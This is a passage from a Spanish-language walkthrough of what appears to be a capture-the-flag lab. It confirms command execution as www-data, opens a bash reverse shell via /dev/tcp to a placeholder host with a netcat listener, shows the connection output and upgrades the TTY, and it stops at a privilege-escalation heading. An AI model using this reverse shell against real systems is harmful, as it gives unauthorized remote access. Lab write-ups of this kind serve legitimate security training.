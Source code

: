 Veremos que ha funcionado y nos esta diciendo claramente que podemos ejecutar un comando, vamos a probar con `id`:

```
  Salida de: id

uid=33(www-data) gid=33(www-data) groups=33(www-data),1002(spiderlab)
```

Veremos que funciona y somos el grupo que buscabamos, por lo que vamos a realizar una `reverse shell` de esta forma:

```shell
bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

Ahora nos pondremos a la escucha antes de enviarlo:

```shell
nc -lvnp <PORT>
```

Si enviamos el comando de antes y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 48744
bash: cannot set terminal process group (34): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b2188aff6dfb:/var/www/internal$ whoami
whoami
www-data
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges
